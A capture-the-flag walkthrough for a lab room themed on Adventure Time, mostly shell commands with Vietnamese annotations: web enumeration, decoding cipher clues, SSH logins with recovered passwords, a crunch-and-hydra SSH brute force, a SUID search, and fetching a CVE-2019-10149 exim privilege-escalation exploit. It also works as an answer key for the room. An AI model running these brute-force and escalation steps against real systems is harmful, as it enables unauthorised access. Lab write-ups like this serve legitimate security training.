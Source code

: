 Room: Adventure Time

Flag1->Hint: Try to recursively enumerate the website(Hãy thử liệt kê (hoặc quét) đệ quy toàn bộ trang web).

$  nmap -sV -v <ip>

<img width="617" height="100" alt="{E4052F82-7898-43AB-9846-334DECEBE22C}" src="https://github.com/user-attachments/assets/07f086c2-edc9-4913-a18c-26d2e237412f" />

gobuster -u https://<IP>-w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

<img width="955" height="318" alt="{CD002047-A8C9-4AE8-B51A-FBAAB9415AFE}" src="https://github.com/user-attachments/assets/5cd30fba-f9d1-49de-ac59-4f2a099abad4" />

=>/candybar/

$  echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d 

=> Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth.

https://en.wikipedia.org/wiki/ROT13

https://www.dcode.fr/caesar-cipher

$ echo "Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth." | tr 'A-Za-z' 'N-ZA-Mn-za-m'

https://land-of-ooo.com

$  sudo gobuster -u https:// land-of-ooo.com -w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> yellowdog

https://land-of-ooo.com/yellowdog/

$  sudo gobuster dir -u https://land-of-ooo.com/yellowdog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> bananastock

https://land-of-ooo.com/yellowdog/bananastock/

Morse code: _/…./.\_…/._/_./._/_./._/…\._/._./.\_/…./.\_…/./…/_/_._.__/_._.__/_._.__

https://www.dcode.fr/morse-code

=>Pass: The banana are the best!!!

$  sudo gobuster dir -e -u https://land-of-ooo.com/yellowdog/bananastock/ -w /usr/share/wordlists/dirb/common.txt -k

=> princess

https://land-of-ooo.com/yellowdog/bananastock/princess/

https://anycript.com/crypto

AES (viết tắt của Advanced Encryption Standard) là một thuật toán mã hóa đối xứng rất phổ biến và mạnh mẽ, được dùng trong hầu hết các hệ thống bảo mật hiện nay — như HTTPS, VPN, Wi-Fi (WPA2/WPA3), ngân hàng, và thiết bị di động.

$  nc land-of-ooo.com 31337

$  sudo ssh apple-guards@<IP>  ,Password: THE BANANAS ARE THE BEST!!!

Flag2->Hint: Can you search for someone's files?

$  find / -user marceline -type f 2>/dev/null

https://www.boxentriq.com/code-breaking/vigenere-cipher

Vigenère cipher là một mã hóa chữ cái theo kiểu dùng khóa (key) lặp lại để dịch chuyển mỗi chữ cái của plaintext với bảng chữ cái 26 ký tự.

=> Abadeer

$  su marceline > Password: My friend Finn

Flag3:

https://www.dcode.fr/spoon-language

=> The magic word you are looking for is ApplePie

$  nc land-of-ooo.com 31337

$  su peppermint-butler > Password: That Black Magic

Flag4->Hint: Things can be hidden and hidden things can be unfolded with the right passwords(Những thứ có thể bị giấu, và những điều bị giấu có thể được hé lộ nếu có đúng mật khẩu).

$  find / -user peppermint-butler -type f 2>/dev/null

$  cat /usr/share/xml/steg.txt

$  find / -user peppermint-butler -name "*.txt" 2>/dev/null

$  cat /etc/php/zip.txt

$  crunch 18 18 -t 'The Ice King s@@@@' > file.txt

$  sudo hydra -l gunter -P file.txt ssh://<IP>

$  su gunter > Password: The Ice King sucks

Flag5:

$  find / -perm /4000 2>/dev/null

$  searchsploit exim

$  cd /etc/exim4/

$  cat /etc/exim4/update-exim4.conf.conf

$  git clone ‘https://github.com/AzizMea/CVE-2019-10149-privilege-escalation.git'
